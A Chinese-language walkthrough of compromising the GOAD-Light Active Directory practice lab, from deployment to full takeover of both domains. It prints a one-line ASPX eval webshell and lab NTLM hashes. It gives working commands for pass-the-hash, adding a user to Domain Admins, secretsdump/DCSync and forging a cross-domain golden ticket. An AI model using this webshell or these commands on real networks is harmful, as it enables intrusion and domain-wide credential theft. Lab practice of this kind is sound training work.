# GOAD-Light靶场

## 靶场部署
官方有很多种部署方式，这里采用Windows主机+Vmware方式进行部署。
参考文档：https://orange-cyberdefense.github.io/GOAD/installation/windows/
重点要提：安装VAGRANT，同时记得安装vagrant vmware utility，否则安装完插件后无法正常使用，插件也需要重新安装，踩了不少坑。
这里由于主机内存有限，无法部署GOAD，部署方案改为GOAD-Light。
运行指令，这里-i参数指定已经安装的实例。
>  python goad.py -i e6d11f-goad-light-vmware -t install -m vm

还有一个坑点就是安装到SRV02靶机相关的service.yml当中，会默认安装SSMS，而靶机SRV02又是接入到Host-Only网卡当中，所以会一直卡住，在GitHub issue当中也能找到相关问题。
解决方案：
可以让Agent帮你修改相关配置，修改后需要copy到虚拟机当中，默认修改为不安装SSMS，这个MSSQL连接GUI工具，对靶场内容无影响。

最后也是成功部署完成，截图庆祝一下，安装了8个小时（bushi）

攻击机Kali配置双网卡，一张Nat或者Mirror，另一张配置跟靶场同一Host-Only区域网段。
如下图，56段为靶场网段。

如何保存靶机进度？
```
cd C:\Users\dragonkeep\Lab\GOAD\workspace\e6d11f-goad-light-vmware\provider
暂停
vagrant suspend
恢复：
vagrant resume 
```      
## 渗透过程
先参考一下官方给出的拓扑，和一些配置内容：
https://orange-cyberdefense.github.io/GOAD/labs/GOAD-Light/

添加一下域名到`/etc/hosts`文件当中：
```
192.168.56.10   kingslanding.sevenkingdoms.local kingslanding sevenkingdoms.local
192.168.56.11   winterfell.north.sevenkingdoms.local winterfell north.sevenkingdoms.local
192.168.56.22   castelblack.north.sevenkingdoms.local castelblack
```

简单测试一下网络是否正常：


### north.sevenkingdoms.local

入口点选择castelblack.north.sevenkingdoms.local

使用nmap进行端口扫描：
```
nmap -sC -sV -O castelblack.north.sevenkingdoms.local -oN castelblack.txt
```
扫描结果：

80端口HTTP服务存在文件Upload功能，尝试直接上传Webshell


编写一个简单的一句话Aspx
```
<%@ Page Language="JScript"%><%eval(Request.Item["e90573ab141e53c1be9e0d48d2acbb9e"],"unsafe");%>
```
使用Antsword成功获取权限，

上传CS木马进行权限提升和内网渗透

直接getsystem指令提权失败了

使用LSTAR插件Waston枚举提权向量：

使用`whoami /all`查看`iis apppool\defaultapppool`用户权限，通常情况下，iss或者mysql这里服务类型用户都存在`SeImpersonatePrivilege`权限。

`systeminfo`查看操作系统版本：
``` FOLD
Host Name:                 CASTELBLACK
OS Name:                   Microsoft Windows Server 2019 Datacenter Evaluation
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          
Registered Organization:   Vagrant
Product ID:                00431-20000-00000-AA378
Original Install Date:     7/2/2026, 9:40:43 AM
System Boot Time:          7/4/2026, 3:14:16 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 68 Stepping 1 AuthenticAMD ~3194 Mhz
                           [02]: AMD64 Family 25 Model 68 Stepping 1 AuthenticAMD ~3194 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     5,999 MB
Available Physical Memory: 4,430 MB
Virtual Memory: Max Size:  7,663 MB
Virtual Memory: Available: 5,841 MB
Virtual Memory: In Use:    1,822 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    north.sevenkingdoms.local
Logon Server:              N/A
Hotfix(s):                 9 Hotfix(s) Installed.
                           [01]: KB5087061
                           [02]: KB4512577
                           [03]: KB4535680
                           [04]: KB4577586
                           [05]: KB4580325
                           [06]: KB4589208
                           [07]: KB5003243
                           [08]: KB5094123
                           [09]: KB5094143
Network Card(s):           2 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet1
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.56.22
                                 [02]: fe80::f48e:b0b8:8000:3611
                           [02]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.127.254
                                 IP address(es)
                                 [01]: 192.168.127.147
                                 [02]: fe80::91d7:a00c:2f3d:65e8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```
发现是Windows Server 2019版本，受到PrintSpoofer影响：
https://github.com/itm4n/PrintSpoofer/

成功获取`nt authority\system`权限。
尝试使用mimikatz抓取密码：

成功获取三组密码NTLM Hash，尝试使用PTH：

| 用户             | 域名      | NTLM Hash                          |
| -------------- | ------- | ---------------------------------- |
| `robb.stark`   | `NORTH` | `831486ac7f26860c9e2f51ac91e1a07a` |
| `sql_svc`      | `NORTH` | `84a5092f53390ea48d660be52b93b804` |
| `CASTELBLACK$` | `NORTH` | `58162cfe3de384e3d074de2b2b6074a6` |

对这几个用户尝试各种枚举登录，psexec、winrm等。
这里使用evil-winrm成功登录到域`winterfell.north.sevenkingdoms.local`
```
evil-winrm -i winterfell.north.sevenkingdoms.local   -u 'robb.stark' -H '831486ac7f26860c9e2f51ac91e1a07a'
```

简单使用nmap在对域名`winterfell.north.sevenkingdoms.local`进行扫描一下：
```
nmap -sC -sV -O winterfell.north.sevenkingdoms.local -oN winterfell.txt
```
扫描结果：


尝试使用`bloodhound-python`收集域内用户信息：
```
bloodhound-python -u 'robb.stark' -d 'north.sevenkingdoms.local' --hashes ':831486ac7f26860c9e2f51ac91e1a07a' -dc 'winterfell.north.sevenkingdoms.local' -ns '192.168.56.11' -c All --zip
```
bloodhound-python存在bug问题，在GitHub上可以找到[issue](https://github.com/SpecterOps/BloodHound/issues/1897)，无法正常运行，采取其他方式进行枚举信息。

获取域内成员信息：
```
impacket-GetADUsers north.sevenkingdoms.local/robb.stark -hashes :831486ac7f26860c9e2f51ac91e1a07a -dc-ip 192.168.56.11 -all
```
执行结果：
``` FOLD
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Querying 192.168.56.11 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2026-07-03 01:48:43.921074  2026-07-03 19:18:10.103284
Guest                                                 <never>              <never>
vagrant                                               2021-05-12 19:39:16.765445  2026-07-03 19:25:08.157732
krbtgt                                                2026-07-03 02:02:50.970650  <never>
                                                      2026-07-03 02:12:51.120643  <never>
arya.stark                                            2026-07-03 19:13:07.587975  <never>
eddard.stark                                          2026-07-03 19:13:10.494044  2026-07-05 00:59:52.770228
catelyn.stark                                         2026-07-03 19:13:13.275480  <never>
robb.stark                                            2026-07-03 19:13:16.056490  2026-07-05 01:03:06.035951
sansa.stark                                           2026-07-03 19:13:18.728582  <never>
brandon.stark                                         2026-07-03 19:13:21.354216  <never>
rickon.stark                                          2026-07-03 19:13:23.994485  <never>
hodor                                                 2026-07-03 19:13:26.665927  <never>
jon.snow                                              2026-07-03 19:13:29.291275  <never>
samwell.tarly                                         2026-07-03 19:13:31.932189  <never>
jeor.mormont                                          2026-07-03 19:13:34.509998  <never>
sql_svc                                               2026-07-03 19:13:36.994863  2026-07-04 18:14:27.976865
```

这里发现`eddard.stark`在靶场部署登录过，说明可能是域管理员，这一点可以使用指令确认：
```
Get-ADGroupMember "Domain Admins" -Recursive | ft SamAccountName
```

找到一个工具Z-Hound，同样是解析SharpHound输出的zip，纯HTML。
https://github.com/zrnge/Z-Hound

发现robb.stark用户居然用`Administrator`用户权限的WriteOwner和、WriteDacl权限

直接尝试将robb.stark加入到Domain Admins组当中
```
net group "Domain Admins" robb.stark /add /domain
net group "Domain Admins" /domain
```

获取到Domain Admins权限后，直接使用`impacket-secretsdump`将整个域内密码dump下来：
```
impacket-secretsdump north.sevenkingdoms.local/robb.stark@winterfell.north.sevenkingdoms.local -hashes :831486ac7f26860c9e2f51ac91e1a07a
```
winterfell.north.sevenkingdoms.local域内哈希：

可以看到默认robb.stark用户密码为：sexywolfy

### sevenkingdoms.local

下一个目标是获取sevenkingdoms.local域内所有哈希密码。

使用Nmap扫描kingslanding.sevenkingdoms.local靶机端口开放情况：
```
nmap -sC -sV -O kingslanding.sevenkingdoms.local -oN kingslanding.txt
```
扫描结果：



使用Administrator登录后收集信息，发现存在两个域相互信任关系，应该是父子域。

查看sevenkingdoms.local域Domain SID值：
```
Get-ADObject -Filter {objectClass -eq "trustedDomain"} -Properties * | Select-Object Name, securityidentifier, trustpartner
Get-ADTrust -Filter * -Properties * | Select-Object Name, Source, Target, TrustedDomainSID
```

在使用north.sevenkingdoms.local域内用户krbtgt密码哈希制作黄金票据：
```
impacket-ticketer -nthash 5688f3c6be82730f8a8139210eb19366 -domain-sid S-1-5-21-1059753544-4112682789-3828145270 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-3188637911-2879481109-1677984939-519 Administrator
```
导入到环境变量：
```
export KRB5CCNAME=Administrator.ccache
```
使用impacket-secretsdump工具利用DCSync来获取整个域内用户密码哈希：
```
 impacket-secretsdump -k -no-pass Administrator@kingslanding.sevenkingdoms.local
```
sevenkingdoms.local域密码哈希：


登录kingslanding.sevenkingdoms.local管理员：

## 反思
在最后使用north.sevenkingdoms.local域内用户krbtgt密码哈希制作黄金票据，为什么使用psexec和wmiexec都会报错`[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)`。为什么父域 KDC 不认子域的 KRBTGT 签发的票据，为什么使用DCSync恰好不经过这一步。
```
使用子域 NORTH 域 KRBTGT 签发Golden Ticket，里面虽然镶嵌了SEVENKINGDOMS 的 Enterprise Admins SID。
TGT = {
      签名: NORTH\KRBTGT (krbtgt hash 伪造)
      主体: Administrator@NORTH
      PAC: { NORTH\Domain Admins, SEVENKINGDOMS\Enterprise Admins }  ← extra-sid 注入
}
DCSync 为什么能过：
DCSync 走 DCERPC / DRSUAPI 协议 — 直连 DC，把 TGT 作为认证令牌出示：
攻击者 → kingslanding DC: "给我复制 NTDS.dit，这是我的 TGT"
  kingslanding 检查:
    ✓ TGT 签发域 NORTH 在信任列表里 (双向信任)
    ✓ PAC 里 Enterprise Admins SID → 有复制权限
    → 放行
DC 只验证「签发者是否可信」和「PAC 里有没有权限」，不要求自己是签发者。
psexec/wmiexec 为什么失败：
走 SMB / WMI 需要服务票据 (Service Ticket) — 必须由目标所在域的 KDC 签发：

攻击者 → SEVENKINGDOMS KDC: "我要访问 CIFS/kingslanding，这是我的 NORTH TGT"
  SEVENKINGDOMS KDC:
    ✗ 你的 TGT 不是我签发的
    → 正常流程：你该先找 NORTH KDC 拿跨域 referral TGT
    → 但你的 TGT 是伪造的，NORTH KDC 根本没发过这个票
    → 无法完成 referral 链
    → KDC_ERR_PREAUTH_FAILED
```